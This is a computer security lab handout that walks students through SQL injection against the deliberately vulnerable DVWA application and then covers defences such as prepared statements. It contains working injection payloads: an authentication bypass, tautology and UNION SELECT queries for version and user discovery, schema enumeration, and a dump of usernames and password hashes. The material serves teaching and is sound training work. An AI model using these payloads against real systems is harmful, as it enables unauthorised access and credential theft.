

# Lab 3: SQL Injection (SQLi) with DVWA

## 1. Overview & Context
- **Institution**: University of Technology, Jamaica — School of Computing & Information Technology (SCIT)
- **Module**: Computer Security
- **Target Application**: Damn Vulnerable Web Application (DVWA)
- **Security Level**: Low

SQL Injection (SQLi) occurs when untrusted user input is directly concatenated into a dynamic SQL query without proper sanitization, escaping, or parameterization. This lab walks through practical exploitation of classic, tautological, and UNION-based SQL injection techniques to discover database metadata, enumerate schema tables, and extract password hashes.

---

## 2. What We Need to Get Started

### Environment & Virtual Machines
1. **VirtualBox** (or VMware Workstation): To host the vulnerable web application VM.
2. **DVWA Virtual Machine / Container**:
   - Running Apache, PHP, and MySQL / MariaDB (e.g. Metasploitable2, Debian DVWA, or Docker container).
3. **Web Browser**: Chrome, Firefox, or Edge on the host or Kali Linux VM connected via Host-Only / NAT Network.
4. **DVWA Configuration**:
   - Access DVWA: `http://<TARGET_IP>/dvwa/`
   - Default Credentials: `admin` / `password`
   - **Crucial Setting**: Navigate to **DVWA Security** in the left sidebar, set security level to **Low**, and click **Submit**.

---

## 3. Learning Objectives
1. **Understand SQLi Vulnerabilities**: Recognize how unsanitized string concatenation allows user input to break out of data context into query syntax context.
2. **Master UNION-Based Injection**: Craft `UNION SELECT` queries matching column counts and data types to extract arbitrary database data.
3. **Information Schema Enumeration**: Query MySQL's internal metadata catalog (`information_schema.tables` and `information_schema.columns`) to map the backend database structure.
4. **Data Exfiltration**: Extract sensitive user credentials and password hashes using delimiter formatting (`concat()` and hex newlines `0x0a`).
5. **Implement Secure Coding Defenses**: Detail and implement remediation strategies including Parameterized Queries (PDO / Prepared Statements), Stored Procedures, Input Validation, Principle of Least Privilege, and Web Application Firewalls (WAFs).

---

## 4. SQL Injection Fundamentals & Prevention

### Vulnerable Query Pattern
In PHP, vulnerable code typically concatenates raw `$_POST` or `$_GET` variables into SQL strings:
```php
<?php
$query = "SELECT * FROM users WHERE username = '" . $_POST['username'] . "' AND password = '" . $_POST['password'] . "'";
?>
```
If an attacker inputs `admin' -- `, the resulting query becomes:
```sql
SELECT * FROM users WHERE username = 'admin' -- ' AND password = '...';
```
The `-- ` sequence comments out the remaining password validation check, allowing an immediate authentication bypass.

### Primary Defensive Countermeasures
1. **Parameterized Queries (Prepared Statements)**: Ensures user input is treated strictly as literal parameter data, never executable code:
   ```php
   $stmt = $pdo->prepare('SELECT id, first_name, last_name FROM users WHERE user_id = :id');
   $stmt->execute(['id' => $id]);
   $user = $stmt->fetch();
   ```
2. **Input Validation**: Enforce strict data-type allowlisting (e.g. verifying an ID parameter is purely numeric with `is_numeric()` or `ctype_digit()`).
3. **Stored Procedures**: Encapsulate queries on the database server to prevent direct command injection.
4. **Database Least Privilege**: Never connect web applications using administrative or `root` accounts. Restrict DB privileges to only required `SELECT`, `INSERT`, `UPDATE` permissions on specific tables.
5. **Web Application Firewall (WAF)**: Deploy signature and heuristic inspection engines (e.g., ModSecurity) to detect and block common SQLi payloads before they reach application logic.

---

## 5. Step-by-Step Completion Guide



---

### Step 1: Basic Input & Parameter Discovery
1. Navigate to **SQL Injection** in the left navigation menu.
2. In the **User ID** input box, enter `1` and click **Submit**.
   - Output: `ID: 1`, `First name: admin`, `Surname: admin`.
3. Notice the URL address bar:
   ```text
   http://<DVWA_IP>/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#
   ```
4. Test altering the `id` parameter directly in the URL (`?id=2`, `?id=3`) to verify parameter behavior across existing records.

---

### Step 2: Boolean Always True (Tautology Bypass)
1. **Objective**: Bypass the `WHERE user_id = '$id'` filter to return every user record in the table.
2. In the **User ID** field, enter:
   ```sql
   %' or '1'='1'
   ```
3. **Query Mechanics**:
   ```sql
   SELECT first_name, last_name FROM users WHERE user_id = '%' or '1'='1';
   ```
   Because `'1'='1'` evaluates to `TRUE`, the `WHERE` condition satisfies for every row, displaying all user accounts.

---

### Step 3: Fingerprinting Database Version
1. **Objective**: Use `UNION SELECT` to determine the exact database engine and version.
2. In the **User ID** field, enter:
   ```sql
   %' or 0=0 union select null, version() #
   ```
3. **Query Mechanics**:
   - `union select` appends a secondary query.
   - Two columns (`null` and `version()`) are selected to match the two columns (`first_name`, `last_name`) of the original query.
   - `#` comments out the remainder of the developer's original SQL statement.
   - Output reveals the underlying version (e.g. `5.0.51a-3ubuntu5` or MariaDB release).

---

### Step 4: Display Current Database User
1. **Objective**: Identify the system or database privilege level running the backend queries.
2. In the **User ID** field, enter:
   ```sql
   %' or 0=0 union select null, user() #
   ```
3. Output reveals the active database user (e.g. `app@localhost` or `root@localhost`).

---

### Step 5: Enumerate All Tables in `information_schema`
1. **Objective**: Enumerate all tables across the database instance via MySQL's metadata schema.
2. In the **User ID** field, enter:
   ```sql
   %' and 1=0 union select null, table_name from information_schema.tables #
   ```
3. **Query Mechanics**:
   - `%' and 1=0` evaluates to `FALSE`, suppressing original query output so only the injected results appear.
   - Returns the table names cataloged in `information_schema.tables`.

---

### Step 6: Enumerate Specific User Tables
1. **Objective**: Filter tables relevant to authentication and user records.
2. In the **User ID** field, enter:
   ```sql
   %' and 1=0 union select null, table_name from information_schema.tables where table_name like 'user%'#
   ```
3. Output highlights target tables such as `users` and `users_groups`.

---

### Step 7: Dump Column Contents & Sensitive Credentials
1. **Objective**: Extract usernames and password hashes from the `users` table.
2. In the **User ID** field, enter:
   ```sql
   %' and 1=0 union select null, concat(first_name,0x0a,last_name,0x0a,user,0x0a,password) from users #
   ```
3. **Query Mechanics**:
   - `concat(...)` merges multiple column values into a single output field.
   - `0x0a` represents the ASCII newline character (`\n`), formatting each field onto a new line.
4. **Extracted Data**:
   Displays the user accounts (`admin`, `gordonb`, `1337`, `pablo`, `smithy`) alongside their corresponding MD5 password hashes (e.g. `5f4dcc3b5aa765d61d8327deb882cf99`).

---

## 6. Deliverables & Discussion Questions

### Required Lab Deliverables
1. **Screenshots**:
   - Successful execution of Step 2 (tautology bypass displaying all users).
   - Successful version extraction (Step 3) and user extraction (Step 4).
   - Full credential dump showing accounts and password hashes (Step 7).
2. **Analysis Report**:
   - Explain the function of the `#` comment delimiter in terminating queries.
   - Explain why `UNION` requires matching column counts and compatible types.
   - Provide a refactored, secure PHP code snippet demonstrating Parameterized Queries (Prepared Statements) for the vulnerable search function.
